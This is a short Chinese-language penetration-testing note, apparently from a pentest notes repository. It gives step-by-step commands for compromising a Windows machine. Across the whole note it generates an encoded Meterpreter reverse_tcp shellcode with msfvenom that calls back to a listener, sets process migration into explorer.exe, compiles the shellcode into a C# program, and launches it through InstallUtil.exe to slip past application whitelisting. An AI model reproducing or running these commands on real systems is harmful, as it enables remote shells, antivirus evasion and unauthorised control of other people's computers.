 	生成payload
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f csharp -o cs.txt
	Payload粘贴到InstallUtil-Shellcode.cs中使用csc编译
![image](/assets/Pentest_Note/master/img/58.png)

	C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe /platform:x86 /out:C:\Users\y\Desktop\shell.exe C:\Users\y\Desktop\InstallUtil-ShellCode.cs
![image](/assets/Pentest_Note/master/img/59.png)

	执行
	C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\y\Desktop\shell.exe